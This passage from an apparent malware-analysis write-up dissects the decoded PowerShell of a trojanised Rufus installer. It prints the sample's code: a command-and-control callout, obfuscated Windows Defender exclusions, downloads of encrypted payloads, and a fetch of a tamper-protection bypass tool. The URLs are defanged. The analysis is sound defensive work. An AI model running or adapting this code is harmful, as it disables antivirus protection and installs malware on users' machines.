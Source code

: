 After decoding the base64 command with CyberChef we can examine the PowerShell code executed in multiple parts. First, the script calls home to command and control before configuring Windows Defender exclusions.

```powershell
sleep -Milliseconds 1235
$ErrorActionPreference = 'Stop'
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri ("hxxps://advertising-check[.]ru/start.php") -UseBasicParsing
$ErrorActionPreference = 'Continue'

Add-MpPrefer`ence -ExclusionExtension ".dll", ".cmd", ".bat", ".zip", ".exe"
Add-MpPrefer`ence -ExclusionPath "C:\Windows\System32\drivers\etc", "C:\Windows\System32\Config", "$env:APPDATA"
Add-MpPrefer`ence -ExclusionProcess "Zeip.dll", "Zeip.exe"
...
```
{: file='rufus.decoded.ps1'}

The Windows Defender exclusions include files with the extensions DLL, CMD, BAT, ZIP, and EXE. The paths include C:\Windows\System32\drivers\etc, C:\Windows\System32\Config, and the current user's AppData\Roaming folder. Finally, it adds process exclusions specifically for Zeip.dll and Zeip.exe. This detail is going to be useful as the files get downloaded later in the script.

```powershell
...
$ErrorActionPreference = 'Stop'
Invoke-WebRe`quest -Uri ("hxxps://bitbucket[.]org/assop/test/downloads/Zeip.dll.gpg") -OutFile $env:APPDATA\Zeip.dll.gpg
Invoke-WebRe`quest -Uri ("hxxps://bitbucket[.]org/assop/test/downloads/Zeip.exe.gpg") -OutFile $env:APPDATA\Zeip.exe.gpg
$ErrorActionPreference = 'Continue'
...
```
{: file='rufus.decoded.ps1'}

Both Zeip.dll and Zeip.exe are downloaded, but they're not in executable form yet. If we examine their file type, it looks like they're both GPG encrypted with AES256. 

```console
remnux@remnux:~/cases/rufus$ file Zeip.exe.gpg 
Zeip.exe.gpg: GPG symmetrically encrypted data (AES256 cipher)
```

Presumably, the files must be decrypted before they can execute. That portion comes much later in the script, so we'll keep going until we get to it.

```powershell
...
sleep -Milliseconds 245
Invoke-Web`Request -Uri hxxps://raw.githubusercontent[.]com/swagkarna/Bypass-Tamper-Protection/main/NSudo.exe -OutFile $env:APPDATA\NSudo.exe
sleep -Milliseconds 245

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("hxxps://github[.]com/pbatard/rufus/releases/download/v3.21/rufus-3.21.exe", "$env:APPDATA\setup.exe")

.$env:APPDATA\setup.exe

...
```
{: file='rufus.decoded.ps1'}

